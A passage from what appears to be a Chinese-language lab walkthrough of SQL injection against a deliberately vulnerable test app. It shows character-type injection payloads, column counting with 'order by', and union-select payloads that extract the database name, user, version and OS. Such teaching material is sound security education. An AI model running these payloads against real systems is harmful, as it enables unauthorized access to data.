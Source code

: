 因为此时执行的sql语句相当于：

```sql

SELECT first_name, last_name FROM users WHERE  user_id  =  '1'  and  '1'  =  '1'
```

`and '1'='1'`显然成立，所以就会返回user_id为1的用户信息。

- 输入ID为`1' or '1' = '1`时出现以下提示：

![20190502144303.png](https://raw.githubusercontent.com/handbye/images/master/20190502144303.png)

界面将所有的用户信息都显示了出来，因为此时执行的sql语句相当于：

```sql

SELECT first_name, last_name FROM users WHERE  user_id  =  '1'  or  '1'  =  '1'
```

`or '1'='1'`显然成立，所以就会返回所有的用户信息。

以上实验过程说明存在字符型注入。

2. 猜解数据表中的字段数

- 输入ID为`1' order by 1 #`, 正常显示：

![20190502150715.png](https://raw.githubusercontent.com/handbye/images/master/20190502150715.png)

- 输入ID为`1' order by 2 #`, 正常显示：

![20190502150826.png](https://raw.githubusercontent.com/handbye/images/master/20190502150826.png)

- 输入ID为`1' order by 3 #`, 不正常显示：

![20190502150938.png](https://raw.githubusercontent.com/handbye/images/master/20190502150938.png)

说明数据表中的字段数位2，正常情况下请使用二分法进行测试。

3. 使用联合查询获取其它有用信息，例如获取数据表名称

> union 运算符可以将两个或两个以上 select 语句的查询结果集合合并成一个结果集合显示，即执行联合查询。需要注意在使用 union 查询的时候需要和主查询的列数相同，而我们之前已经知道了主查询列数为 2，接下来就好办了。

- 输入以下语句进行查询：

```sql

1' union select database(),user()#
```

可获取数据库名和数据库用户名：

![20190502151701.png](https://raw.githubusercontent.com/handbye/images/master/20190502151701.png)

- 输入以下语句进行查询

```sql

1' union select version(),@@version_compile_os#
```
